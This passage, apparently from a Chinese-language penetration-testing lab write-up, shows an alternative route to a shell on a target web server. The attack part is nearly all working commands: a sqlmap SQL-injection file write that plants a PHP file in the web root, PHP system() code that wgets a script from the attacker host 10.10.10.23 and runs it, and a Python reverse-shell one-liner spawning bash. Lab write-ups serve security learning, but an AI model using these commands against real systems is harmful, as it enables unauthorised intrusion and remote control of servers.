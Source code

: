 [![](assets/1703831504-16ce136de3546b8ca5ed7c7738bce20d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163915-6a90f82a-a493-1.png)

> 拿到www-data权限

<5>此外，曾经也遇到过类似问题，解决方法是换一种姿势，sqlmap上传get2255.php，浏览器访问/get2255.php，让靶机在tmp下wget反弹shell后执行，就可以监听到反弹shell

```plain
//上传shell
sqlmap -u 'http://10.10.10.100/login.php' --data='email=admin&pass=admin&submit=Login' --level=5 --risk=3 --file-write='/home/wsec/0X0CpWnOS2/get2255.php' --file-dest='/var/www/get2255.php'

//shell2255.py
export RHOST="10.10.10.23";export RPORT=2255;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'

//get2255.py
<?php system('cd /tmp;wget 10.10.10.23:9000/shell2255.py;chmod +x shell2255.py;./shell2255.py')?>
```

